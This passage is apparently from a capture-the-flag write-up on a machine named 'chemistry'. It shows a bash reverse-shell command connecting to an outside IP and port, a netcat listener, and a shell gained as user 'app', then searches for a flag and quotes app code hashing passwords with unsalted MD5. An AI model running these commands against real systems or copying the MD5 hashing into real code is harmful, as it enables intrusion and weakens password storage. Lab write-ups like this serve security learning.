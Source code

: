 To create a reverse shell, I'll use this command:
```
/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.157/4444 0>&1\'
```

And as always netcat listening on the same port configured on the reverse shell command:
```
nc -nvlp 4444
```

I add the exploit lines to the cif example and upload it to the page. When clicking "view", the pages freezes, but after looking at the netcat I can see that a reverse shell was created:
```
┌──(oriol㉿zero)-[~]
└─$ sudo nc -nvlp 4444
[sudo] password for oriol: 
listening on [any] 4444 ...
connect to [10.10.14.157] from (UNKNOWN) [10.10.11.38] 41950
sh: 0: can't access tty; job control turned off
$ whoami
app
```

Great! We are the user app. Let's collect the flag.
```
$ ls
app.py
instance
static
templates
uploads
```

Seems that the flag isn't here, so before searching further, let's create a better shell for convenience. I will do it with python, as I know this server has it installed:
```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
app@chemistry:~$ 
```

Let's do a find:
```
app@chemistry:~$ find / -iname user\.txt 2>/dev/null
find / -iname user\.txt 2>/dev/null
/home/rosa/user.txt
```

Seems we'll have to get access to the rosa user...
This is still part of ganing access, as the I am assuming that the rosa user doesn't have any admin privileges.

Doing a cat on the app.py file, we can see this:
```
hashed_password = hashlib.md5(password.encode()).hexdigest()
        new_user = User(username=username, password=hashed_password)
        db.session.add(new_user)
        db.session.commit()
        login_user(new_user)
```
